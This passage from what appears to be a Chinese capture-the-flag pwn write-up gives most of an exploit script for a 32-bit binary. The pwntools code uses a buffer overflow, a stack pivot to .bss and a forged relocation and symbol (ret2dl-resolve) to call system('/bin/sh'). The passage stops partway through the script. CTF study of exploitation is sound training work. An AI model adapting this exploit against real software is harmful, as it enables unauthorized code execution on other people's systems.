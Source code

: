 经历一个漫长的构造过程，终于成功get shell

[![](https://p2.ssl.qhimg.com/t01775b050c55757a2f.png)](https://p2.ssl.qhimg.com/t01775b050c55757a2f.png)

#### <a class="reference-link" name="%E5%AE%8C%E6%95%B4%E7%9A%84exp"></a>完整的exp

```
from pwn import *
context.log_level='debug'
p=process('./pwn')
#p=remote("c346dfd9093dd09cc714320ffb41ab76.kr-lab.com",56833)
elf=ELF('./pwn')
#gdb.attach(p)


bss_addr=0x0804a040 #objdump -h pwn|grep bss
read_plt=0x08048390 #objdump -d pwn |grep plt
gadget1=0x0804852a #ROPgadget --binary pwn |grep leave # leave |ret

payload='A'*0x28+p32(bss_addr) #EBP-&gt;bss_addr
payload+=p32(read_plt)+p32(gadget1)+p32(0)+p32(bss_addr)+p32(0x36)
#raw_input()
p.sendline(payload)
raw_input()
#p.sendline("a"*0x20)


gadget2=0x080485d9 #pop esi | pop edi | pop ebp | ret
gadget3=0x080485db #pop ebp | ret
stack_size=0x800
base_stage=bss_addr+stack_size
payload1="A"*4
payload1+=p32(read_plt)+p32(gadget2)+p32(0)+p32(base_stage)+p32(100)
payload1+=p32(gadget3)+p32(base_stage)
payload1+=p32(gadget1)
p.sendline(payload1)

#fake struct
dynsym=0x080481dc#objdump -h pwn
dynstr=0x0804827c
alarm_got=0x0804a010
fake_sym_addr=base_stage+36
align=0x10-((fake_sym_addr-dynsym)&amp;0xf) #align=8
fake_sym_addr=fake_sym_addr+align

index_dynsym=(fake_sym_addr-dynsym)/0x10
r_info=index_dynsym&lt;&lt;8|0x7
fake_reloc=p32(alarm_got)+p32(r_info)# rel alarm-&gt;system
st_name=fake_sym_addr+0x10-dynstr
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(0x12)

plt0=0x08048380 #.plt
rel_plt=0x0804833c
index_offset=(base_stage+28)-rel_plt
cmd='/bin/sh'

payload2='B'*4
payload2+=p32(plt0)
payload2+=p32(index_offset) # push reloc_arg
payload2+='A'*4
payload2+=p32(base_stage+80)
payload2+='A'*8
#fake_struct
```